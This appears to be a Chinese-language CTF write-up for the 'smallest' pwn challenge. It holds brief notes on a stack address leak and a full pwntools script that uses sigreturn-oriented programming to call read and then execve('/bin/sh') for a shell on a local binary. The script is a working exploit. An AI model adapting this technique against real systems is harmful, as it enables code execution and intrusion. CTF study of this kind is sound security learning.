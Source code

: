 2. 第二次send,修改低字节部分，改为返回地址，绕过 xor rax rax 
泄露的是buf地址，也就是rsp ,那么最多存储16个字节(?)
 buf在栈上，构造 rsp 指向我们泄露的地址
设置 rax = 15 了：地址8位+7个padding,read 15个字节，作为返回值会存在 rax 中。
有点不明白：
`payload = p64(start_addr) * 3`  
`p64(start_addr) + 'a' * 8 + str(sigframe)` 
为什么 不设置 context.log_level='debug' 泄露地址就会出现错误： 那是因为程序写错了吧...
可是真的关了就错了...?? 为什么...

payload
```python
from pwn import *

context.log_level='debug'
context.arch = 'amd64'
p = process("./smallest")

main_addr = 0x4000b0
sys_addr = 0x4000be

payload = p64(main_addr)*3
p.send(payload)
p.send('\xb3')
stack_addr = u64(p.recv()[8:16])

log.success("leak stack addr:"+hex(stack_addr))

sigframe = SigreturnFrame() # syscall(rax,rdi,rsi,rdx)
sigframe.rax = constants.SYS_read 
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = sys_addr 
payload = p64(main_addr)+'a'*8+str(sigframe)
p.send(payload)

sigreturn = p64(sys_addr)+'b'*7 # rax = 15 
p.send(sigreturn)

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve # syscall(execve,binsh_addr,0,0)
sigframe.rdi = stack_addr + 0x200 # binsh_addr 
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr 
sigframe.rip = sys_addr 
frame_payload = p64(main_addr)+'b'*8+str(sigframe)

print len(frame_payload)
payload = frame_payload+(0x200-len(frame_payload))*'\x00'+'/bin/sh\x00'
p.send(payload)
p.send(sigreturn)
p.interactive()

```
![leak](http://p6cwaqxnz.bkt.clouddn.com/smallest-leak-2.png)
